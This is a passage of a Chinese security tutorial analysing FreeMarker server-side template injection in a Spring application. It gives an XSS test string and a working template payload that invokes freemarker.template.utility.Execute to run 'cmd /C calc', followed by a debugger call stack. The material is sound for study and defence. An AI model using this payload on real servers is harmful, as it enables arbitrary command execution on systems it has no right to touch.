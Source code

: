 第六：运行访问，访问/hello，使用 get 请求提交 name 值即可将其渲染至页面  
测试 xss：如果提交的 name 值为`<script>alert('a')</script>`，在不经过如何过滤的情况下，会将该值渲染到界面造成弹窗  
测试命令执行：在 hello.html 中写入如下命令执行 POC  
`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cmd /C calc") }`  
这样在访问/hello 时，会触发命令执行，弹出计算器

### 2.4 简单分析

在 freemarker\\template\\utility\\Execute.class 类的 exec 方法处下断点  
函数调用栈：

```plain
exec:75, Execute (freemarker.template.utility)
_eval:62, MethodCall (freemarker.core)
eval:101, Expression (freemarker.core)
calculateInterpolatedStringOrMarkup:100, DollarVariable (freemarker.core)
accept:63, DollarVariable (freemarker.core)
visit:334, Environment (freemarker.core)
visit:340, Environment (freemarker.core)
process:313, Environment (freemarker.core)
process:383, Template (freemarker.template)
processTemplate:391, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
doRender:304, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
renderMergedTemplateModel:255, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
renderMergedOutputModel:179, AbstractTemplateView (org.springframework.web.servlet.view)
render:316, AbstractView (org.springframework.web.servlet.view)
render:1373, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1118, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1057, DispatcherServlet (org.springframework.web.servlet)
doService:943, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:626, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:374, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:868, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1590, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
```